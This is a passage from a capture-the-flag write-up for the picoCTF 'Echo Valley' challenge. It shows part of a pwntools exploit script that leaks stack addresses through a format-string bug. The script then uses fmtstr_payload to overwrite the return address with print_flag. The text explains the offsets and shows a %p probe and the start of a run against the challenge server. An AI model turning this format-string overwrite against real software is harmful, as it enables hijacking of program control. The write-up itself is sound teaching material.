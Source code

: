 ```
        print(payload)
        break

    i = i+1


main_address = int(message.split('0x')[1], 16)
print_flag_address = main_address - print_flag_offset

r.sendline(b'%20$p')
message = str(r.recvline().decode())
stack_addr = int(message.split('0x')[1], 16)
write_addr = stack_addr-0x8

payload = fmtstr_payload(6, {write_addr : print_flag_address}, write_size='short')

print(payload)

r.sendline(payload)

r.sendline(b'exit')
print(r.recvline())
print(r.recvline())

```

Here's a quick overview:

```print_flag_offset``` - this is the offset we get from ```original return address - print_flag address```

The program then enters a loop which will check each value from the stack until it finds the return address (so until it finds '413' in the output)<br/>
I convert it to an integer and subtract the ```print_flag_offset``` which gives me the address of ```print_flag```

Then it sends ```%20$p``` . That outputs the stack address which is held on the stack at the 20th position. It then subtracts 8 bytes from it which results in a stack address that holds the return address ```write_addr```.

Lastly it crafts a payload that will overwrite the return address with the ```print_flag_address```.<br/>
You might be confused about ```6``` as the first argument. That's the offset of where the address we wanna write to will be on the stack.<br/>
You can easily check this with:
```
Welcome to the Echo Valley, Try Shouting: 
AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p
You heard in the distance: AAAAAAAA0x7ffdb4ca5d10.(nil).(nil).0x55ac9b84f6d0.(nil).0x4141414141414141.0x70252e70252e7025.0x252e70252e70252e
```
As you can see the ```0x4141414141414141``` is at the 6th position so that's our offset.

After executing the payload we should get a flag!


```
└─[$] python3 exp.py                                                                                                                                                                                   [20:51:5
[+] Opening connection to shape-facility.picoctf.net on port 65477: Done
b'Welcome to the Echo Valley, Try Shouting:'
b' \n'
You heard in the distance: 0x7bc5329dc5c0
